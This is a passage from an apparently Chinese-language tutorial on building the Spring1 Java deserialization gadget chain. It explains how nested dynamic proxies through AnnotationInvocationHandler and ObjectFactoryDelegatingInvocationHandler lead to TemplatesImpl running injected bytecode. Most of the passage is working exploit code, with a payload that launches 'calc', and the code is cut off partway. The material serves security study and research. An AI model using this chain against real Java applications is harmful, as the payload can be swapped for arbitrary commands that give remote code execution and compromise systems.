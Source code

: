 那如何让`TypeProvider#getType`返回我们的`(Type)Proxy1`呢，也是再套一层动态代理，代理`TypeProvider`接口类，利用`AnnotationInvocationHandler`返回`Proxy1`，即设置`memberValues.put("getType", Proxy1)`

`Proxy1`的调用处理器设置为`ObjectFactoryDelegatingInvocationHandler`，这样就能把`newTransformer`的调用委托给`ObjectFactory#getObject`的返回对象去调用了。

让`ObjectFactory#getObject`返回`TemplatesImpl`即可，到此有两条路可走，继续套动态代理或寻找`ObjectFactory`的实现类（翻了一下发现不好构造，还是没有动态代理来得优雅）

继续套一层动态代理，代理`ObjectFactory<?>`泛型接口，利用`AnnotationInvocationHandler`返回`TemplatesImpl`，即设置`memberValues.put("getObject", TemplatesImpl)`

```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import org.springframework.beans.factory.ObjectFactory;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.util.HashMap;

public class Spring1 {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", new byte[][]{genPayload("calc")});
        setValue(templates, "_name", "1");

        Class<?> clazz1 = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> con1 = clazz1.getDeclaredConstructors()[0];
        con1.setAccessible(true);
        HashMap<String, Object> map1 = new HashMap<String, Object>();
        map1.put("getObject", templates);
        InvocationHandler invocationHandler1 = (InvocationHandler) con1.newInstance(Target.class, map1);
        ObjectFactory<?> factory = (ObjectFactory<?>) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{ObjectFactory.class}, invocationHandler1);

        Class<?> clazz2 = Class.forName("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler");
        Constructor<?> con2 = clazz2.getDeclaredConstructors()[0];
        con2.setAccessible(true);
        InvocationHandler ofdHandler = (InvocationHandler) con2.newInstance(factory);
        Type typeTemplateProxy = (Type) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),
                new Class[]{Type.class, Templates.class}, ofdHandler);

        HashMap<String, Object> map2 = new HashMap<String, Object>();
        map2.put("getType", typeTemplateProxy);
        InvocationHandler invocationHandler2 = (InvocationHandler) con1.newInstance(Target.class, map2);

        Class<?> typeProviderClass = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
        Object typeProviderProxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),
                new Class[]{typeProviderClass}, invocationHandler2);

        Class<?> clazz3 = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
        Constructor<?> con3 = clazz3.getDeclaredConstructors()[0];
```